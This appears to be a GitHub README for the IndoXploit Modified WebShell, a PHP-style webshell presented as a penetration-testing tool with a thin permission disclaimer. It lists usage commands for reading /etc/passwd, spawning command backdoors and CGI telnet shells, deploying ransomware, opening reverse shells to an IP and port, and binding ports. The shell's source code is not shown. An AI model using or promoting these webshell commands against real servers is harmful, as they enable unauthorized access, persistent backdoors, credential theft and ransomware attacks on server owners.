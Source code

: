 # IndoXploit Modified WebShell: A Comprehensive Guide

![IndoXploit Image](https://r00t-shell.com/wp-content/uploads/2025/03/indoxploit-WebShell.png)

> **Note**: This guide is intended for educational purposes and should only be used responsibly by individuals with permission to access the system.

---

**IndoXploit Modified WebShell** is a powerful tool designed for advanced web management and penetration testing. This guide will walk you through its features, commands, and practical usage. 🚀

---

## 📌 What is IndoXploit Modified WebShell?

The IndoXploit Modified WebShell is a web-based shell ability that allows users to execute commands, manage files, and perform various tasks on a server. It is commonly used by cybersecurity professionals for testing and managing web servers. However, **it should be used responsibly and only on systems you own or have explicit permission to test.** 🔐

---

## ⚙️ Key Features

- **File Management**: Read, create, and manage files on the server. 📂
- **Reverse Shell**: Establish a backdoor connection to the server. 🔄
- **Exploitation Abilities**: Includes local root exploits, ransomware, and more. 💥
- **System Information**: Retrieve PHP version, file system details, and more. 🖥️
- **Custom Commands**: Execute various pre-defined commands for specific tasks. 🧑‍💻

---

## 📝 How to Use IndoXploit Modified WebShell

Below is a step-by-step guide on how to use the IndoXploit WebShell effectively:

---

### 1. Reading Files 📖

To read a file, use the following command:

```bash
rf [filename]
```

Example:

```bash
rf /etc/passwd
```

---

### 2. Spawning Files 🔨

Use the `spawn` command to create various types of files or execute backdoor commands:

- `spawn webconsole` – Execute command backdoor.
- `spawn cgitelnet1` – CGI Telnet Shell 1.
- `spawn rans` – Deploy ransomware.
- `spawn phpinfo` – Retrieve PHP system information.

---

### 3. Reverse Shell (Backconnect) 🔁

To establish a reverse shell connection, use the following syntax:

```bash
rvr bc [IP] [PORT] [TYPE]
```

Example:

```bash
rvr bc 127.0.0.1 1337 bash
```

---

### 4. Binding Ports 🔒

To bind a port, use the following syntax:

```bash
rvr bp [PORT] [TYPE]
```

Example:

```bash
rvr bp 1337 perl
```

---

### 5. Logging Out 🚪

To log out from the shell, use the command:

```bash
logout
```

---

## ⚠️ Best Practices and Warnings

While using the IndoXploit WebShell, keep the following in mind:

- Always use this ability responsibly and **only on systems you have permission to access**.
- Ensure your activities comply with local laws and regulations. ⚖️
- Regularly update your abilities to avoid vulnerabilities. 🔐

---

## 📚 Conclusion

The IndoXploit Modified WebShell is a versatile tool for **web server management and penetration testing**. By following this guide, you can effectively utilize its features while adhering to ethical practices. 🌐

---

## 🚨 Warning

This tool should **ONLY** be used in environments where you have **explicit permission**. Unauthorized access or testing can be illegal and unethical.

---


### 💬 Feedback and Contributions

Feel free to fork, contribute, or open issues in the repository! 🔄  
For further queries, you can reach out via [help@r00t-shell.com](mailto:help@r00t-shell.com).
